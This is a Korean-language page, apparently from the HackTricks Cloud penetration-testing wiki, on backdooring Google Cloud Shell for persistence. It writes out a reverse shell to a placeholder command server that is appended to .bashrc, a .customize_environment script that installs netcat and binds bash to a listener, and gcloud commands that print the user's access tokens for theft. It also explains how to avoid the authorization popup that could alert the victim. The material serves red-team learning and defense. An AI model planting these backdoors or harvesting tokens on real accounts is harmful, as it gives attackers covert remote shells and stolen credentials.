 # GCP - 클라우드 셸 지속성

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## 클라우드 셸

더 많은 정보는 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 지속적인 백도어

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 클라우드 리소스에 대한 명령줄 액세스를 제공하며 관련 비용이 없습니다.

**웹 콘솔** 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔에는 공격자에게 흥미로운 몇 가지 기능이 있습니다:

1. **Google Cloud에 액세스 권한이 있는 모든 Google 사용자**는 완전 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다(서비스 계정은 조직의 소유자일지라도 가능).
2. 해당 인스턴스는 **활동이 없는 경우에도 적어도 120일 동안 홈 디렉터리를 유지**합니다.
3. 해당 인스턴스의 활동을 모니터링할 수 있는 **조직의 기능이 없습니다**.

이 기본적으로는 공격자가 사용자의 홈 디렉터리에 백도어를 설치할 수 있고, 사용자가 적어도 120일마다 GC 셸에 연결한다면 백도어가 유지되어 공격자가 매번 실행될 때마다 쉘을 얻을 수 있습니다. 다음을 수행함으로써: 

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**이라는 다른 파일이 있습니다. 이 파일이 존재하면 사용자가 **클라우드 셸**에 액세스할 때마다 **실행**됩니다 (이전 기술과 마찬가지로). 사용자가 "자주" 클라우드 셸을 사용하는 한 이전 백도어를 삽입하거나 다음과 유사한 백도어를 삽입하여 지속성을 유지할 수 있습니다:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**인증이 필요한 작업을 처음 수행할 때**, 사용자의 브라우저에 팝업 인증 창이 나타납니다. 이 창을 수락해야 명령을 실행할 수 있습니다. 예기치 않은 팝업이 나타나면 의심을 불러일으키고 사용 중인 지속성 방법을 손상시킬 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행했을 때(공격자로) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 활발히 사용한 경우 팝업이 나타나지 않고 사용자의 **토큰을 수집할 수 있습니다**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로 다음 3가지 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 쉘의 IP를 알려줌)

그러나 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 더 많은 정보를 찾을 수 있습니다.

## 참고 자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
